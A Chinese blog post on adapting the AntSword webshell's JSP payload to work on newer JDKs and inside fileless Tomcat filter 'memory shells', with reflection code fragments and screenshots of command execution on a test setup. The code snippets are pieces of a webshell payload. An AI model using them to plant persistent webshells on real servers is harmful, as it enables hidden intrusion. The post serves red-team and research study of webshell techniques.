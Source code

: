 # 蚁剑改造计划之支持内存马


<meta name="referrer" content="no-referrer" />

## 前言

最近因为各种事情太忙了，博客也很久没有更新了。今天暂且先水一篇。

前几天发了一版新的蚁剑JSP一句话的payload，这篇文章记录一下更新的细节。

## 1. 兼容高版本JDK

这个没啥好说的，就是base64解码的问题。在jdk9开始移除了sun.misc这个包，导致原有的`sun.misc.BASE64Decoder`没法继续使用，取而代之的是`java.util.Base64`这个类。

解决办法就是两个都试一下，看哪个能解码成功，核心代码如下

```
public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
```

## 2. 兼容Tomcat内存马

这个问题可以掰扯一下。很多文章都提到了冰蝎或者蚁剑连接内存马的问题。

除了由于写法问题而导致的各种乱七八糟的问题以外，其中主要的一个问题是冰蝎在入口处采用了pageContext这个类来获取request response session对象，本人以冰蝎为原型实现的蚁剑JSP一句话同样采用了pageContext作为入口。但是以filter型内存马为例，doFilter中三个参数分别是ServletRequest，ServletResponse，FilterChain，并不存在pageContext这个东西。

那么大体上有三种解决办法：

1. 自己声明一个pageContext类，在里面实现对应的request跟response的getter setter。[冰蝎改造之不改动客户端=>内存马](https://mp.weixin.qq.com/s/r4cU84fASjflHrp-pE-ybg)。
2. 改写冰蝎的入口为request+response，不再采用pageContext作为入口。但是弊端就是不能再用equals了，要重新写一个方法用反射调用。[冰蝎改造之适配基于tomcat Filter的无文件webshell](https://xz.aliyun.com/t/7899)

1. 采用蚁剑原来的Custom模式，把恶意函数直接通过字节码打进去，然后通过方法名调用。不过由于直接编译恶意函数的字节码较大会超过最大长度限制，一般要先写入目标然后配合URLClassLoader才能使用。[使用WebLogic CVE-2020-2883配合Shiro rememberMe反序列化一键注入蚁剑shell](https://xz.aliyun.com/t/8202)

以上的这些方法可以是可以，但是不够优雅。

回想我们最开始的问题，为什么要用pageContext，是为了拿到当前请求的上下文，更精确一点就是输入输出：request,response。经过实际调试可以发现：

在request中本身就包含了当前的response，同样response中也包含了当前的request。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900381846-89cb17b8-c17d-41ec-8995-12770643b05a.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900381943-fb673234-5711-42a1-9e93-01546372eeae.png)

虽然蚁剑没有用到session对象，但是需要的时候也可以通过request来获取。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900382026-9ad5c7aa-9054-4ccf-9629-f2fed297a955.png)

也就是通过request或者response任意一个就能完全代替pageContext，这也是在新版payload中采取的方案。

核心代码如下

```
if (obj instanceof PageContext) {
            PageContext page = (PageContext) obj;
            request = (HttpServletRequest) page.getRequest();
            response = (HttpServletResponse) page.getResponse();
        } else if (obj instanceof HttpServletRequest) {
            request = (HttpServletRequest) obj;
            try {
                Field req = request.getClass().getDeclaredField("request");
                req.setAccessible(true);
                HttpServletRequest request2 = (HttpServletRequest) req.get(request);
                Field resp = request2.getClass().getDeclaredField("response");
                resp.setAccessible(true);
                response = (HttpServletResponse) resp.get(request2);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else if (obj instanceof HttpServletResponse) {
            response = (HttpServletResponse) obj;
            try {
                Field resp = response.getClass().getDeclaredField("response");
                resp.setAccessible(true);
                HttpServletResponse response2 = (HttpServletResponse) resp.get(response);
                Field req = response2.getClass().getDeclaredField("request");
                req.setAccessible(true);
                request = (HttpServletRequest) req.get(response2);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
```

在equals中收到一个对象后，会依次判断是否是PageContext/HttpServletRequest/HttpServletResponse，然后根据情况拿到request跟response，从而实现对内存马的兼容。

## 实现效果

测试环境

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900382124-c7288ee4-20c8-4a56-b95a-2da3f946b3ef.png)

在equals中填入request对象

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900382212-b2e350f0-c7e9-4bb7-82c1-e529b07fb6fb.png)

访问内存马，一片空白说明注入成功。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900382311-227294c9-3698-4088-9ae9-561de84c625a.png)

访问任意路径即可连接。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900382405-2f91f1b3-3f34-4f0d-a7b8-bcc6cd519562.png)

正常执行命令，完美解决问题。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900382538-b1ebe2ae-b87a-45cc-b7f3-183bab14fe30.png)
